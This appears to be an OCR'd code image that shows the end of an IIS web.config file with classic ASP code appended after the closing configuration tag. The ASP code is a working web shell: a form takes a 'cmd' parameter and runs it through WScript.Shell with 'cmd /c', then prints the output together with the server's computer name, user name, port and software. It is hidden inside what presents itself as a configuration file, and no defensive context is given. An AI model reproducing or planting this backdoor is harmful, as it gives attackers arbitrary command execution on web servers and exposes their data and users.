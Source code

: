 ```c#
            </hiddenSegments>                                                                                                                                                                                                              
         </requestFiltering>                                                                                                                                                                                                               
      </security>                                                                                                                                                                                                                          
   </system.webServer>                                                                                                                                                                                                                     
   <appSettings>                                                                                                                                                                                                                           
</appSettings>                                                                                                                                                                                                                             
</configuration>
<% Response.write("-"&"->") %>

<%
Set oScript = Server.CreateObject("WScript.Shell")
Set oScriptNet = Server.CreateObject("WScript.Network")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<% Response.Write(Request.ServerVariables("SERVER_NAME")) %>
<p>
<b>The server's local address:</b>
</p>
<p>
<b>The server's port:</b>
<% Response.Write(Request.ServerVariables("SERVER_PORT")) %>
</p>
<p>
<b>The server's software:</b>
<% Response.Write(Request.ServerVariables("SERVER_SOFTWARE")) %>
</p>
<p>
<b>Command output:</b>
<%
szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)
%>
</p>
```